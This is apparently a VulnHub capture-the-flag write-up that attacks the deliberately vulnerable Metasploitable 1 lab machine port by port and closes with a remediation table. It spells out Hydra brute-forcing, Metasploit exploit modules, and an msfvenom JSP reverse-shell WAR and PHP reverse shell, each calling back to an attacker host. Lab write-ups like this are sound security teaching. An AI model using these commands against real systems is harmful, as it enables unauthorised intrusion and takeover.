# Metasploitable 1 — VulnHub Writeup

**Platform:** VulnHub | **Difficulty:** Beginner | **Target IP:** 192.168.32.139 | **Attacker IP:** 192.168.32.128

## Machine info

[](images/01-machine-info.png)

## Summary

**Metasploitable 1** is built around a deliberately exposed attack surface rather than a single trick — thirteen open ports, most running decade-old software with default credentials or known unauthenticated exploits. Rather than one exploitation chain, it was worked as a full survey of that surface, testing every open port for a viable route to code execution.

## 1. Reconnaissance

[](images/02-arp-scan.png)
[](images/03-ping.png)

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 192.168.32.139

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.1
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
```

Thirteen open ports — an unusually wide surface even for an intentionally vulnerable box.

## 2. Port 21 / 22 / 23 — Credential Reuse (FTP / SSH / Telnet) → root

A short Hydra dictionary attack against SSH recovered several accounts, each using its own username as the password:

```
hydra -L users.txt -P passwords.txt ssh://192.168.32.139
[22][ssh] host: 192.168.32.139   login: msfadmin   password: msfadmin
[22][ssh] host: 192.168.32.139   login: service    password: service
[22][ssh] host: 192.168.32.139   login: postgres   password: postgres
```

The same credentials work unmodified against FTP and Telnet. `msfadmin` holds unrestricted sudo rights:

```
msfadmin@metasploitable:~$ sudo -l
User msfadmin may run the following commands on this host:
    (ALL) ALL
msfadmin@metasploitable:~$ sudo su root
root@metasploitable:/home/msfadmin#
```

[](images/04-ssh-root.png)
[](images/05-telnet-root.png)

FTP grants the same account full read/write access to its home directory, but no code-execution path was found through the FTP protocol itself.

## 3. Port 25 — SMTP (No RCE)

Postfix's `VRFY` command enumerates valid system accounts, but carries no code-execution vector on its own:

```
msf > use auxiliary/scanner/smtp/smtp_enum
msf auxiliary(scanner/smtp/smtp_enum) > set rhosts 192.168.32.139
msf auxiliary(scanner/smtp/smtp_enum) > exploit
[+] Users found: backup, bin, daemon, distccd, ftp, mysql, postgres, service, www-data, ...
```

## 4. Port 53 — DNS (No RCE)

ISC BIND 9.4.2's only known issues in this version are denial-of-service and cache-poisoning bugs; no RCE path exists for this service.

## 5. Port 80 — Web Enumeration & TikiWiki Backup Upload → www-data

Gobuster surfaced two legacy wiki applications and an exposed phpinfo page:

```
gobuster dir -u http://192.168.32.139/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,js

twiki                (Status: 301) [Size: 356] [--> http://192.168.32.139/twiki/]
tikiwiki             (Status: 301) [Size: 359] [--> http://192.168.32.139/tikiwiki/]
phpinfo.php          (Status: 200) [Size: 47312]
```

[](images/06-phpinfo.png)

TikiWiki's `tiki-user-information.php` also disclosed account details for any username with no authentication required:

[](images/07-tikiwiki-userinfo.png)

Default credentials (`admin:admin`) granted access to the TikiWiki admin panel. Its Backups module accepts an uploaded file with no extension filtering:

[](images/08-tikiwiki-backups.png)

A PHP reverse shell (pentestmonkey) was uploaded as a "backup" and triggered by requesting it directly:

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.32.128] from (UNKNOWN) [192.168.32.139]
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

[](images/09-tikiwiki-wwwdata.png)

TWiki was identified alongside TikiWiki on the same port but not pursued further, since TikiWiki already provided a working vector.

## 6. Port 139 / 445 — Samba usermap_script → root

Samba's `username map script` option allowed shell metacharacters in the login name to be executed directly:

```
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > set rhosts 192.168.32.139
msf exploit(multi/samba/usermap_script) > set lhost 192.168.32.128
msf exploit(multi/samba/usermap_script) > exploit
[*] Command shell session 1 opened
```

[](images/10-samba-root.png)

Unlike the other vectors, this one lands as root immediately — no privilege escalation required.

## 7. Port 3306 — MySQL (No RCE)

`root:root` (Hydra) grants a connection with `ALL PRIVILEGES`, confirmed via `SHOW GRANTS`:

```
mysql -h 192.168.32.139 -u root -proot --skip-ssl
MySQL [mysql]> show grants for root;
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' ... WITH GRANT OPTION
```

No remote code execution was completed against this service.

## 8. Port 3632 — distcc → daemon

distccd accepted unauthenticated build requests, allowing direct command execution:

```
msf > use exploit/unix/misc/distcc_exec
msf exploit(unix/misc/distcc_exec) > set rhosts 192.168.32.139
msf exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse_perl
msf exploit(unix/misc/distcc_exec) > set lhost 192.168.32.128
msf exploit(unix/misc/distcc_exec) > exploit
[*] Command shell session 1 opened
```

[](images/11-distcc-daemon.png)

The resulting shell runs as `daemon` only; it could read but not escalate within `/root`.

## 9. Port 5432 — PostgreSQL postgres_payload → postgres

The same weak-credential pattern (`postgres:postgres`) applied to PostgreSQL. Metasploit's Linux payload module uploads and loads a malicious shared object through the database connection:

```
msf > use exploit/linux/postgres/postgres_payload
msf exploit(linux/postgres/postgres_payload) > set rhosts 192.168.32.139
msf exploit(linux/postgres/postgres_payload) > set username postgres
msf exploit(linux/postgres/postgres_payload) > set password postgres
msf exploit(linux/postgres/postgres_payload) > set lhost 192.168.32.128
msf exploit(linux/postgres/postgres_payload) > exploit
[*] Meterpreter session 1 opened
```

[](images/12-postgres-shell.png)

## 10. Port 8009 — AJP / Ghostcat — Arbitrary File Read

Although officially rated for Tomcat 6.x–9.x, the underlying AJP trust issue behind Ghostcat (CVE-2020-1938) also affects this Tomcat 5.5 instance. Metasploit's scanner reads arbitrary files from the webapp directory with no authentication:

```
msf > use auxiliary/admin/http/tomcat_ghostcat
msf auxiliary(admin/http/tomcat_ghostcat) > set rhosts 192.168.32.139
msf auxiliary(admin/http/tomcat_ghostcat) > run
<web-app ...>
  <display-name>Welcome to Tomcat</display-name>
  ...
</web-app>
```

This confirms local file inclusion via AJP; combined with the file-upload access obtained through the Tomcat Manager below, it represents a second route to code execution on the same service.

## 11. Port 8180 — Tomcat Manager WAR Deploy → tomcat55

[](images/13-tomcat-identified.png)

The Tomcat Manager application accepted default credentials (`tomcat:tomcat`):

[](images/14-tomcat-manager.png)

A JSP reverse shell packaged as a `.war` was deployed through the Manager's upload form:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.32.128 LPORT=4445 -f war -o shell.war
```

Visiting the deployed shell in the browser triggers the connection:

[](images/15-tomcat-shell.png)

```
nc -lvnp 4445
listening on [any] 4445 ...
connect to [192.168.32.128] from (UNKNOWN) [192.168.32.139]
uid=110(tomcat55) gid=65534(nogroup) groups=65534(nogroup)
```

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Default/weak credentials shared across FTP, SSH, Telnet, PostgreSQL and MySQL | Enforce unique, strong passwords per service; disable SSH password auth in favor of keys |
| TikiWiki backup upload accepts arbitrary file types | Disable or restrict the backup/upload feature; validate uploaded file extensions |
| `phpinfo.php` publicly accessible | Remove or restrict phpinfo output in production |
| TikiWiki discloses account info via `view_user` with no authentication | Restrict `tiki-user-information.php` to authenticated users |
| Samba `username map script` allows command injection (CVE-2007-2447) | Upgrade Samba; remove `username map script` from configuration |
| distccd accepts unauthenticated build requests | Disable distccd or restrict it to trusted hosts via firewall |
| AJP Connector exposed and trusts forwarded requests (Ghostcat-class issue) | Disable the AJP Connector if unused, or bind it to localhost only |
| Tomcat Manager reachable with default credentials | Change or remove default Manager credentials; restrict access by IP |
| `/root` is listable by unprivileged users | Tighten directory permissions on `/root` |
